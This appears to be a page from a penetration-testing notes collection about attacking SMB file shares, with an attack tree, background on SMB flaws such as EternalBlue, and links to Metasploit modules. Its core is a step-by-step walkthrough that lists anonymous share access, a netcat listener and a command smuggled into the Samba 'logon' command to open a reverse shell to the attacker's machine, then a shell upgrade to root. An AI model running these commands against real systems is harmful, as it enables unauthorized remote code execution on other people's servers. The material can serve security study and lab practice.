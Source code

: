 # SMB exploits

## Attack tree

```text
1 Scan target machine and check for open SMB port
2 Recon
    2.1 Use SMB client and check for anonymous access
    2.2 Detect version
    2.3 Identify possible exploits
3 Exploit 
```

## Example

```text
# smbclient -L <IP address samba server>
```

Password is nothing, just hit enter.

If a `tmp` directory exixts and there is anonymous access, use `nc` for starting a listener:

```text
# nc -lvp 7777
```

Open a new terminal and access the `tmp` directory on the samba server directly:

```text
# smbclient //<IP address samba server>/tmp
```

In `smb\ :>` type `help` to check the logon command is available. If it is, make the reverse connection:

```text
smb\ :> logon "/=`nc <IP address hack machine> 7777 -e /bin/bash`"
```

In the listener terminal the reverse connection appears. Take the terminal view from the shell in the terminal:

```text
# python -c "import pty;pty.spawn(‘/bin/bash’);"
```

Root.

## Notes

Server Message Block (SMB) is the file-sharing protocol for Microsoft networks. SMB uses TCP port 139 (NetBIOS) and TCP port 445.

SMB vulnerabilities have been around for 20+ years. In general, most SMB attacks do not occur because there are no 
expensive tools or applications protecting it, but rather because there was a failure to implement best practices 
surrounding SMB.

There may even still be SMB file systems that are shared out to everyone on the network and have little to no 
configuration against remote attacks, in which case the above example may work. If that does not work, check version, 
check exploit database, and fire up Metasploit.

For example, certain releases of Samba contain a vulnerability in the LSA RPC service that, if exploited, 
can trigger a heap overflow and allow an unprivileged user to execute arbitrary code on the system as the root user.

In 2017, EternalBlue used an exploit used against a vulnerability in SMB v1.0. Among the malware that used the 
EternalBlue exploit were WannaCry and Emotet, both of which can self-propagate. And as new threats appear, they 
are most likely to continue to use similar attack techniques to exploit a system or network. The recent SolarWinds 
attack exploited the SMB protocol too.

## Tools

* [Samba SetInformationPolicy AuditEventsInfo Heap Overflow](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/linux/samba/setinfopolicy_heap)
* [MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/windows/smb/ms17_010_eternalblue)
* [MS10-061 Microsoft Print Spooler Service Impersonation Vulnerability](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/windows/smb/ms10_061_spoolss)
